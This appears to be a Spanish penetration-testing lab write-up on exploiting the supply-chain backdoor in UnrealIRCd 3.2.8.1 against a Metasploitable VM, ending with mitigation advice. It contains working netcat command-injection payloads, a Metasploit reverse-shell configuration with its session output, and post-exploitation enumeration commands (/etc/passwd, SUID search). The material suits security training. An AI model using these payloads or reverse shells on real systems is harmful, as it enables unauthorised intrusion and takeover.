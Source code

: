 # 💥 Explotación de UnrealIRCd 3.2.8.1 — Backdoor Remoto

## 🧠 Objetivo del laboratorio

En este laboratorio explotaremos un **backdoor remoto** presente en *UnrealIRCd 3.2.8.1*, detectado en versiones que fueron comprometidas en su repositorio oficial.  
Este backdoor permite a un atacante ejecutar comandos arbitrarios en el sistema remoto con los privilegios del usuario que ejecuta el servicio.

---

## 📚 ¿Qué es UnrealIRCd?

UnrealIRCd es un servidor IRC (Internet Relay Chat) muy popular y ampliamente utilizado.  
En 2010, el repositorio oficial fue comprometido y la versión **3.2.8.1** descargada durante ese periodo contenía un **troyano** que introducía un backdoor:  
- Cualquier cliente que enviara una cadena especial (`AB;<comando>`) podía ejecutar comandos arbitrarios en el servidor, sin autenticación.

---

## ⚠️ Riesgo de la vulnerabilidad

- **Impacto:** Ejecución Remota de Comandos (RCE)
- **Confidencialidad:** Comprometida — el atacante puede leer ficheros.
- **Integridad:** Comprometida — el atacante puede modificar y eliminar datos.
- **Disponibilidad:** Comprometida — el atacante puede detener servicios o el sistema.

---

## 🎯 Objetivos del ejercicio

1. Detectar el servicio UnrealIRCd y confirmar versión vulnerable.
2. Probar la ejecución remota de comandos de forma manual.
3. Explotar con Metasploit para obtener una shell reversa.
4. Realizar post-explotación básica y documentar hallazgos.
5. Proponer medidas de mitigación.

---

## 🔍 Paso 1 — Escaneo con Nmap

Ejecutamos un escaneo específico al puerto 6667 para identificar el servicio:

```bash
nmap -sV -p 6667 192.168.56.102
````

| Puerto | Protocolo | Servicio     | Descripción                                                                 |
|--------|-----------|--------------|------------------------------------------------------------------------------|
| 6667   | TCP       | UnrealIRCd   | Puerto estándar para comunicación IRC sin cifrado. Usado por clientes IRC.  |
| 6697   | TCP       | UnrealIRCd   | Puerto alternativo para IRC cifrado con SSL/TLS (no siempre activo).        |

✅ Confirmamos que el servicio está activo y en versión vulnerable.

## 🧪 Paso 2 — Prueba manual de la vulnerabilidad

PoC manual con hadshake IRC:

```bash
( printf "NICK pwn\r\n";
  printf "USER pwn 0 * :pwn\r\n";
  sleep 1;
  printf "AB;id\r\n";
  sleep 1;
) | nc 192.168.56.102 6667
```

PoC directo:

```bash
printf "AB;uname -a\r\n" | nc 192.168.56.102 6667
```

Nota:
En algunos casos el backdoor ejecuta pero no devuelve salida al cliente, por lo que puede ser difícil confirmar manualmente. Por ello, utilizaremos también Metasploit.

## 🚀 Paso 3 — Explotación con Metasploit

Abrimos msfconsole:

```bash
msfconsole
```

Seleccionamos el módulo específico:

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.56.102
set RPORT 6667
set LHOST 192.168.56.101   # IP de nuestro Kali
set LPORT 4446
set PAYLOAD cmd/unix/reverse
run
```

Salida esperada:

[*] Started reverse TCP handler on 192.168.56.101:4446 
[*] 192.168.56.102:6667 - Connected to target, sending payload...
[*] Command shell session 1 opened (192.168.56.101:4446 -> 192.168.56.102:45123) at 2025-08-08 12:45:01 +0200


## 🖥️ Paso 4 — Post-explotación inicial

Una vez dentro del sistema:

```bash
whoami
id
uname -a
hostname
pwd
```

Salida esperada:

```bash
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux metasploitable 2.6.24-16-server #1 SMP i686 GNU/Linux
metasploitable
/home/daemon
```

## 🔍 Paso 5 — Enumeración básica

Información del sistema:

```bash
cat /etc/issue
cat /etc/os-release 2>/dev/null
```

Usuarios:

```bash
cat /etc/passwd | head -n 20
```

Procesos:

```bash
ps aux | head -n 15
```

Puertos abiertos:

```bash
netstat -tulpen 2>/dev/null
```

Archivos SUID:

```bash
find / -perm -4000 -type f 2>/dev/null
```

## 📂 Evidencias guardadas

- Capturas de nmap.
- Salida del PoC manual.
- Pantallazos de Metasploit con shell.
- Resultados de whoami, id, uname -a.
- Lista de SUIDs.

## 💥 Impacto

- **Confidencialidad:** acceso a datos internos.
- **Integridad:** modificación/eliminación de ficheros.
- **Disponibilidad:** posibilidad de denegar servicios.
- Potencial de **escalada de privilegios** a root.

## 🛡️ Medidas de mitigación

1. **Actualizar** UnreallRCd a una versión segura desde repositorios oficiales.
2. **Verificar checksums** y firmas digitales antes de instalar.
3. **Registringir acceso** al puerto 6667 mediante firewall.
4. **Monitorizar logs** para detectar conexiones y comandos sospechosos.
5. **Segmentar redes** para que servicios como IRC no sean accesibles desde Internet.

## 📌 Notas finales

- Esta vulnerabilidad es un ejemplo claro de supply chain attack: el software oficial fue comprometido en el origen.
- El pentester debe siempre confirmar la versión y aplicar explotación controlada únicamente en entornos autorizados.
- En producción, este fallo podría permitir tomar control total del sistema.
